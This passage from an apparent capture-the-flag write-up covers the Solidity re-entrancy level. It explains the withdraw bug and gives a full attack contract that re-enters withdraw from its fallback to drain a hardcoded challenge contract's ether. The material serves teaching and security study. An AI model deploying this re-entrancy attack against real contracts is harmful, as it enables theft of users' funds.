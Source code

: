```solidity
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

To complete this challenge, we have to steal all the ether present in the contract's account. The bug is in the "withdraw" function. Even though, it checks whether the withdraw amount is greater then the balance, the state i.e balance after withdraw, is only updated after sending the ether by making an "external call". To see why this is dangerous, remember that we can implement "fallback" functions which will be called when data field is empty or it doesn't match any function signature. So, when the challenge contract sends ether, if receiving account is not a externally owned account, then that account has the ability to transfer the execution to any other contract or just finish and return to the challenge contract. if the "fallback" function just returns without doing anything then everything works as intended but if "fallback" function calls "withdraw" function again, as the balance is not yet updated, it will result in the transfer of ether using "call" to the same contract. recursively, we can steal all the ether present in the challenge contract. Note that, "call" transfers all the available gas when not set explicitly and this attack could be prevented by sending particular amount of gas not enough for re-entrancy.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface Re {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract attack {
    Re reentrace;

    constructor() payable public {
        reentrace = Re(0xB041a6080273501b83218302E75fA5e7b9D8aCa4);
        reentrace.donate{value: msg.value}(address(this));
    }

    function withdraw() payable public {
        reentrace.withdraw(0.001 ether);
    }

    fallback() external payable {
        reentrace.withdraw(0.001 ether);
    }
}
```

### Elevator
